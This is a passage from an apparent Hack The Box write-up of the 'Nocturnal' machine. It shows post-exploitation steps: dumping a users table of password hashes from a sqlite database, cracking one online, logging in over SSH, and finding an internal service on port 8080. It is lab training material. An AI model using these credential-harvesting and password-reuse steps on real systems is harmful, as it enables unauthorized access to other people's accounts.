 After getting a shell, we explore the `nocturnal_database` folder and find a `users` table that contains usernames along with their hashed passwords.

```bash
www-data@nocturnal:~/nocturnal_database$ sqlite3 nocturnal_database.db
sqlite3 nocturnal_database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
.tables
uploads  users  
sqlite> select * from users;
select * from users;
1|admin|d7<REDACTED>
2|amanda|df<REDACTED>
4|tobias|55<REDACTED>
6|kavi|f3<REDACTED>
7|e0Al5|10<REDACTED>
8|test|09<REDACTED>
```

A fast check on [crackstation](https://crackstation.net/) reveals password for hash from `tobias` user

![alt text](../assets/img/posts/2025-08-21-htb-writeup-nocturnal/image-16.png)

Testing that on SSH gives us access as `tobias` and we can grab `user.txt` file

```bash
┌──(kali㉿kali)-[~/Documents/HTB/nocturnal]
└─$ ssh tobias@nocturnal.htb    
tobias@nocturnal.htb's password: 
...
tobias@nocturnal:~$ cat user.txt 
a7<REDACTED>
```

## Privilege escalation

There seems to be something running on port 8080 only accessible from inside the box

```bash
tobias@nocturnal:~$ netstat -punta
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
```